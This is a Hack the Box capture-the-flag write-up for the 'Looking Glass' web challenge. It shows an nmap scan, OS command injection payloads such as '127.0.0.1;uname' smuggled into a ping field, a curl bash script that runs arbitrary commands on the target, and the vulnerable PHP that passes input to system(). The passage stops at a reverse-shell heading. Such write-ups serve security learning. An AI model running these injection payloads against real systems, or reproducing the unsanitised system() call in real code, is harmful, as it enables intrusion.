 # Looking Glass write-up by Herman Detwiler

## Overview

Looking glass is an easy box on Hack the Box, and can be found on the OWASP top 10 track. We are given the following description: 

*We've built the most secure networking tool in the market, come and check it out!*

The first step is going to be to gather as much information about the target as possible.

## Recon

Given that we are given a docker address to looking glass: 161.35.47.235:30278 first I will run an nmap scan of the target to attempt and enumerate service and underlying OS information about the target. To do this I use the following nmap command to enumerate serverice version, run basic nse scripts, and to attempt OS detection:

```bash
sudo nmap -sC -sV -O 161.35.47.235 -p 30278
```

However initially the host seems down because the host is blocking ping attempts. To counter this we can add the -Pn flag to our nmap command.

```bash
└─$ sudo nmap -sC -sV 161.35.47.235 -p 30278 -Pn -O
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 10:57 EDT
Nmap scan report for 161.35.47.235
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
30278/tcp open  http    nginx
|_http-title: rce
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), HP P2000 G3 NAS device (92%), ASUS RT-N56U WAP (Linux 3.4) (91%), Linux 3.16 (91%), Linux 2.6.32 (91%), Linux 2.6.39 - 3.2 (91%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (91%), Linux 3.1 - 3.2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 10 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.28 seconds
```
Based on these findings, I can be fairly certain that this is a linux box, running an nginx web server. My next step is to further enumerate this service using various commands to try and see if I can get an idea of the functionality of this web server.

## Enumeration

Using my web browser to manually view the webapp I can see that it is desiegned to perform two different network tests, traceroute and ping. It also displays my actual ip address, which has been redacted on the screenshots.

![image](https://user-images.githubusercontent.com/83407557/161574988-faf3c1c6-6625-47cf-ad47-70933d97f7e2.png)

After manually messing around with functionality I can determine that the webapp is not connected to the internet, as any attempt to ping myself or any other internet facing ip address is met with 100% packet loss:

Just as example trying to ping example.com:

1. Getting ipv4 address of example.com from kali

![image](https://user-images.githubusercontent.com/83407557/161576640-71832a69-3d2b-433a-8a6f-9b9861a832c4.png)

2. Pinging that ipv4 from kali (to show what a box that is connected looks like)

![image](https://user-images.githubusercontent.com/83407557/161576870-f0d9be61-1f61-47ca-9559-4f86f2d11160.png)

3. Doing the same from looking glass to verify 100% packet loss

![image](https://user-images.githubusercontent.com/83407557/161577155-cc56b1ba-a248-4590-b651-ded46cbdbd26.png)

## Building an exploit

Seeing as that the server seems to be running system commands, I need to see if I can break out of the intended ping or traceroute commands and run my own.

### POC

Again using kali to show what I am attempting to do, I need to write a one liner that will both ping and then also run another command. I will us the uname command in linux to try and identify the underlying OS. When run by itself it looks like this:


![image](https://user-images.githubusercontent.com/83407557/161585460-b734416a-3681-4622-9c93-08943276940b.png)

I can also tell that the server is not just running ping by itself, as it always returns four packets. So even though it just says "ping" the actual command is going to be closer to "ping -c4 -w3" so that is what I am going to use locally to get the output as close to the server's as I can. To make bash run another command after the first I can use a semicolon ";". With this in-mind the entire command to ping 8.8.8.8 four times and then run the uname command on kali:

```bash
ping -c4 -w3 8.8.8.8;uname
```
![image](https://user-images.githubusercontent.com/83407557/161586497-8b21c91b-7ee8-4b8a-99b1-678d2e982dcf.png)

As you can see after running the ping command, at the very end of the output it also says "Linux". Now I can see if I can get the same output on looking glass, by adding a semicolon and the uname command to the ip address just as above:

```
8.8.8.8;uname
```

![image](https://user-images.githubusercontent.com/83407557/161587002-cc215b51-2688-4759-91e6-178e85fb4a2e.png)

Even though the ping command returned 100% packet loss, it can be seen the that uname command returned as well. However before I build this into a working exploit, I want to make it a little faster. Each time looking glass trys to ping it takes serveral seconds, which will add up if I am trying to run commands. To counter this, I will try my next manual command against localhost(127.0.0.1) to see if it speeds up the ping command. I want to get all of the OS info using the uname -a command. Using the same method as before:

```
127.0.0.1;uname -a
```

![image](https://user-images.githubusercontent.com/83407557/161587809-785d43cd-71f2-429c-a370-4bd454fe6a1b.png)

and Bingo! was able to get it to work marginally faster and also now know the kernel info. With this I can build my actual exploit.

### Making a bash script

Taking a look at the post request that was sent to the server to perform the ping command, I can copy this as a curl request to begin building a bash script for myself. I will call this initial script tinker.sh.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'

```
Running tinker.sh I can see that I get the same output as I did with my POC:

![image](https://user-images.githubusercontent.com/83407557/161610497-96c04432-637a-447a-bf73-51f6edeb1593.png)

Now I need to modify tinker.sh to make my acutal exploit script, where I can give commands as arguments and get the output in the response. To do this I will change the line

```
--data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'
```

to 

```
--data-raw "test=ping&ip_address=127.0.0.1%3Bu$1&submit=Test"
```
to make it so instead of the uname command it will run the first argument I pass to my bash script.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw "test=ping&ip_address=127.0.0.1%3B$1&submit=Test"
```

Now I can run any number of commands, right from my command line:

whoami command

![image](https://user-images.githubusercontent.com/83407557/161611409-c8643e1e-64e3-46d3-879e-6f4ec51c84fb.png)

hostname command:

![image](https://user-images.githubusercontent.com/83407557/161611487-9d5c76d1-8d84-4f36-b8c4-f343f36e64ab.png)
![image](https://user-images.githubusercontent.com/83407557/161611582-3fcec2f5-3a51-4a46-b98a-c0b34e7f06d3.png)

## Getting a reverse shell.

Using the script developed in the last section the following additional information was discovered: we are in the www directory, and the only other file in the directory is index.php, which we are now able to flush out and view the source code.

```php
<?php
function getUserIp()
{
    return $_SERVER['REMOTE_ADDR'];
}

function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}

?>
```
